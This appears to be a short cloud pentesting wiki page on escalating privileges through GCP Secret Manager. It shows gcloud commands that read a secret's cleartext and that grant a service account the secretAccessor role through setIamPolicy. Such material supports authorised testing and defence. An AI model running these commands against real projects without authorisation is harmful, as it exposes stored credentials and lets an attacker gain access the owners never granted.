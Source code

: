 # GCP - Secretmanager Privesc

## secretmanager

For more information about secretmanager:

[[../gcp-services/gcp-secrets-manager-enum.md]]

### `secretmanager.versions.access`

This give you access to read the secrets from the secret manager and maybe this could help to escalate privielegs (depending on which information is sotred inside the secret):

```bash
# Get clear-text of version 1 of secret: "<secret name>"
gcloud secrets versions access 1 --secret="<secret_name>"
```

As this is also a post exploitation technique it can be found in:

[[../gcp-post-exploitation/gcp-secretmanager-post-exploitation.md]]

### `secretmanager.secrets.setIamPolicy`

This give you access to give you access to read the secrets from the secret manager, like using:

```bash
gcloud secrets add-iam-policy-binding <scret-name> \
  --member="serviceAccount:<sa-name>@$PROJECT_ID.iam.gserviceaccount.com" \
  --role="roles/secretmanager.secretAccessor"
```

